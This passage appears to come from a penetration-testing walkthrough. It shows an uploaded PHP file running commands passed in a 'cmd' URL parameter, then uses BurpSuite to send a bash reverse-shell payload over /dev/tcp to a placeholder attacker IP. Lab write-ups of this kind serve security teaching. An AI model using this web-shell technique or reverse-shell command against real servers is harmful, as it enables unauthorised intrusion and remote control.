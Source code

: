 <figure><img src=".gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

After the file has been uploaded, click on it in the browser and it will show a blank page, however, if we add a system command in the cmd URL parameter, the PHP backend will execute its value, e.g: ?cmd=id .

<figure><img src=".gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

The above URL returns with the output of the id command, letting us know that Apache is running in the context of the user www-data . Let's intercept this request in BurpSuite and send it to the repeater tab by pressing the CTRL+R shortcut, or by right-clicking inside the request and selecting Send to Repeater .

Now that we know we can execute code on the remote system, let's attempt to get a reverse shell. The current request is an HTTP GET request and we can attempt to use it to send a command that will grant us a reverse shell on the system, however, it is likely that one might encounter errors due to the presence of special characters in the URL (even after URL encoding them). Instead, let us convert this GET request to a POST request and send the reverse shell command as an HTTP POST parameter.

Right-click inside the Request body box, and click on the "Change request method" in order to convert this HTTP GET request to an HTTP POST request.

In the repeater tab, we can alter the request and set the following reverse shell payload as a value for the cmd parameter.

```
  /bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```
